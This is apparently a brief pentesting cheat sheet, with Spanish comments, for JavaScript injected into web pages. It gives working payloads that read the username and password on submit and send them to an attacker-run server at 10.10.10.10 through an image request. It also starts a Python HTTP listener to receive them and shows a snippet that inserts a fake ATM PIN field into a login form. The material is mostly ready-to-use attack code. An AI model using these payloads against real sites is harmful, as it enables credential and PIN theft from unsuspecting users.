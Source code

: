 ### form data hijacking

```html
<script>
	
	function interceptForm(){
		let username = document.forms[0].elements[0].value;
		let password = document.forms[0].elements[1].value;
		
		alert(username+" - "+password);
	}
	
	document.forms[0].onsubmit = interceptForm;
	
</script>
```

recibiendo la data en un servidor nuestro:

```html
<script>
	
	function interceptForm(){
		let username = document.forms[0].elements[0].value;
		let password = document.forms[0].elements[1].value;
		
		new Image().src = "http://10.10.10.10:8000/?user="+username+"&pass="+password;
	}
	
	document.forms[0].onsubmit = interceptForm;
	
</script>
```

KALI:

```bash
python -m SimpleHTTPServer
```

### Modified form field

```html
<form>
	<input id="user" type="text" name="user">
	<input id="password" type="password" name="p">
<form>
```

```javascript
//creo el elemento
const inp = document.createElement("input");
inp.setAttribute("id","pin");
inp.setAttribute("type","text");
inp.setAttribute("name","pin");
inp.setAttribute("placeholder","ATM PIN");

// agregamos despues del password
const element = document.forms[0];
const pass = document.getElementsByTagName("input")[1];
pass.after(inp);

//agregamos antes del password
element.insertBefore(inp,pass);
```
